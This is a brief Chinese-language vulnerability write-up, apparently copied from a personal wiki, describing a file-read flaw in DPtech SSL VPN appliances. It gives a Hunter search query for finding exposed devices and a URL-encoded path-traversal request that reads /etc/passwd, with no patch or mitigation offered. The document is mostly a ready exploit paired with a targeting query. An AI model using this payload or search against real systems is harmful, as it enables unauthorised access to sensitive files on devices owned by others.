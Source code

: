 # 迪普VPN 文件读取漏洞

# 一、漏洞简介
杭州迪普科技股份有限公司（简称“迪普科技”） 以“让网络更简单、智能、安全”为使命，聚焦于网络安全及应用交付领域，是一家集研发、生产、销售于一体的高科技上市企业迪普VPN存在文件读取漏洞,攻击者可利用该漏洞获取系统的敏感信息等.

# 二、漏洞简介
+ 迪普VPN

# 三、资产测绘
+ hunter`app.name="迪普科技 SSL VPN"`
+ 特征

![1700146429112-a3552bb7-8370-42ee-9552-50a806ed9768.png](./img/czNyRt8mHUwlBYkD/1700146429112-a3552bb7-8370-42ee-9552-50a806ed9768-159962.png)

# 四、漏洞复现
```plain
/..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

![1700146450840-3855310d-e778-459d-8373-b8c5ba05cbc7.png](./img/czNyRt8mHUwlBYkD/1700146450840-3855310d-e778-459d-8373-b8c5ba05cbc7-175575.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ta805nfg17vfpqiy>